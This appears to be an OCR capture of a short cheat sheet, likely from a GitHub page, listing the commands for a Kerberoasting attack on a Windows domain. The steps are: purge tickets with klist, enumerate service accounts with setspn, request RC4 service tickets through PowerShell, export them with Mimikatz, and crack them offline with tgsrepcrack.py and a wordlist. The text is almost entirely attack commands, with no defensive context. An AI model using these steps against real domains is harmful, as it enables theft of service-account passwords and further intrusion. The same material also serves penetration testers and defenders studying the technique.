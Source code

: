 <pre>
- Firstly purge all the tickets
  - klist purge
  - klist
 
 - SPN scan for service accounts
    - setspn -T domain_name -F -Q */*
  
 - Now request Service Ticket (TGS) and it should be in RC4 encryption type
    - Add-Type -AssemblyName System.IdentityModel
    - New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList 'SPN Account'
    - klist
 
 - Export kerberos tickets using Mimikatz
    - mimikatz# kerberos::list /export
  
 - Copy exported service ticket to Kali for kerberoasting, based on the wordlist we would be able to crack the password
    - ./tgsrepcrack.py wordlist.txt ticket_name.kirbi
</pre>
